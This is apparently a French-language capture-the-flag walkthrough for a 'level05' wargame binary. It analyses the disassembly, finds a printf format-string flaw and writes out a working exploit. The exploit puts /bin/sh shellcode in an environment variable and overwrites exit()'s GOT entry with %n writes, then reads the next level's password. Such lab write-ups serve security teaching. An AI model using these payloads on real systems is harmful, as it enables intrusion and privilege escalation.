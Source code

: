 # Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

## Binaire

`./level05`
```

```
`test`
```
test
```
## Gdb

`info function`
```asm
[...]
  0x08048444  main
[...]
```

`disas main`
```asm
Dump of assembler code for function main:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	push   edi
   0x08048448 <+4>:	push   ebx
   0x08048449 <+5>:	and    esp,0xfffffff0
   0x0804844c <+8>:	sub    esp,0x90                         ; 144 octets pour la stack
   0x08048452 <+14>:	mov    DWORD PTR [esp+0x8c],0x0         ; int i @ esp+0x8c = 0
   0x0804845d <+25>:	mov    eax,ds:0x80497f0
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:	lea    eax,[esp+0x28]                   ; buffer @ 0x+28
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>            ; fgets(buffer, 100, stdin);
   0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0         ; i = 0
   0x08048485 <+65>:	jmp    0x80484d3 <main+143>             ; jump <+143>
   0x08048487 <+67>:	lea    eax,[esp+0x28]
   0x0804848b <+71>:	add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:	cmp    al,0x40
   0x08048497 <+83>:	jle    0x80484cb <main+135>             ; if buffer[i] <= 64: jump <+135>
   0x08048499 <+85>:	lea    eax,[esp+0x28]
   0x0804849d <+89>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:	cmp    al,0x5a
   0x080484a9 <+101>:	jg     0x80484cb <main+135>             ; if buffer[i] > 90:  jump <+135>
   0x080484ab <+103>:	lea    eax,[esp+0x28]
   0x080484af <+107>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:	mov    edx,eax
   0x080484bb <+119>:	xor    edx,0x20
   0x080484be <+122>:	lea    eax,[esp+0x28]
   0x080484c2 <+126>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:	mov    BYTE PTR [eax],dl                ; buffer[i] = buffer[i] ^ 32
   0x080484cb <+135>:	add    DWORD PTR [esp+0x8c],0x1         ; i++
   0x080484d3 <+143>:	mov    ebx,DWORD PTR [esp+0x8c]         ; ebx = i
   0x080484da <+150>:	lea    eax,[esp+0x28]
   0x080484de <+154>:	mov    DWORD PTR [esp+0x1c],0xffffffff  ; int a @ esp+01xc = -1
   0x080484e6 <+162>:	mov    edx,eax                          ; edx = buffer
   0x080484e8 <+164>:	mov    eax,0x0                          ; eax = 0
   0x080484ed <+169>:	mov    ecx,DWORD PTR [esp+0x1c]         ; ecx = a = -1
   0x080484f1 <+173>:	mov    edi,edx                          ; edi = buffer
   0x080484f3 <+175>:	repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>:	mov    eax,ecx
   0x080484f7 <+179>:	not    eax
   0x080484f9 <+181>:	sub    eax,0x1                          ; eax = strlen(buffer)
   0x080484fc <+184>:	cmp    ebx,eax
   0x080484fe <+186>:	jb     0x8048487 <main+67>              ; if i < strlen(buffer):  jump <+67> (boucle)
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>           ; printf(buffer);
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>             ; exit(0);
End of assembler dump.
```

# Exploit

Le programme lit 100 octets sur stdin qu'il place dans un buffer, puis le parcourt et xor par 32 chaque octet entre 64 et 90 (ca revient à faire un to_lower).
Enfin, il utilise printf pour l'afficher, sans format string en premier argument (donc vulnérable car nous contrôlons le buffer).

On va pouvoir exploiter le printf pour écrire où nous le souhaitons, mais le programme ne return à aucun moment donc inutile de réécrire l'EIP.

L'objectif être de [remplacer son entrée dans la dans la Global Offset Table](https://axcheron.github.io/exploit-101-format-strings/) par [un shellcode](https://www.exploit-db.com/exploits/42428).

En mettant notre shellcode en input le xor va altérer son contenu donc on va devoir passer par une variable d'environnement pour le faire exécuter.
Pour plus d'informations sur les format string exploit et les override d'adresse dans la globale offset table, cf [RainFall/level3](https://github.com/Alhuin/rainfall/blob/main/level3/walkthrough.md) & [RainFall/level5](https://github.com/Alhuin/rainfall/blob/main/level5/walkthrough.md).

En utilisant le modifier %n de printf, on peut écrire à une adresse (habituellement celle d'une variable qui lui est fournie en paramètre) le nombre d'octets précédemment lus dans la format string.

Notre payload malicieux sera donc formatté comme suit:
- L'adresse GOT de exit() en little endian
- %[N]d     //  Padding de N octets (N étant la représentation en int de l'adresse de notre shellcode)
- "%[x]$n"  //  écrit N à l'adresse fournie en [x]ème paramètre (on veut pointer sur les 4 premiers octets de notre payload)

`export SHELLCODE=$(python -c 'print "\x90"*1000 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')`

`gdb level5`
```
(gdb) b * main
Breakpoint 1 at 0x8048444
(gdb) r
Starting program: /home/users/level05/level05
(gdb) x/140s environ
[...]
0xffffd4bc: SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\2
[...]
```
- On a l'adresse de notre varibale d'environnement : 0xffffd4bc, mais on va prendre une adresse un peu plus loin pour être sur de tomber dans la nopsled: 0xffffd64c.

`python -c 'print "aaaa " + "%08x " * 20' | ./level05`
```
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6bf ffffd6be 00000000 ffffffff ffffd744 f7fdb000 61616161 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830
```
- printf() commence à lire le début de la format string au `10eme paramètre`.

`objdump -R level05`
```
level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
- l'adresse d'exit dans la global offset table est `0x80497e0`

On veut donc écire 0xffffd64c à l'adresse 0x80497e0 avec %n, mais 0xffffd64c est trop grand pour tenir dans un seul int, on va donc écrire ce nombre en deux fois, sur deux short ints (2 octets): d64c = 54860 à 0x80497e0 et ffff = 65535 à 0x80497e2.

Notre payload final sera:
- '\xe0\x97\x04\x08'    // l'adresse GOT de exit()
- '\xe2\x97\x04\x08'    // l'adresse GOT de exit() + 2 octets
- '%54852d'             // 54860 - les 8 octets des deux adresses précédentes = 54852
- '%10$n'              // écrit la première moitié de l'adresse du shellcode à l'adresse GOT de exit()
- '%10675d'             // 65535 - ce qu'on a déjà écrit (54860) = 10675
- '%11$n'             // écrit la deuxième moitié de l'adresse du shellcode à l'adresse GOT de exit() + 2

`(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54852d" + "%10$n" + "%10675d" + "%11$n"';cat) | ./level05`
```
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
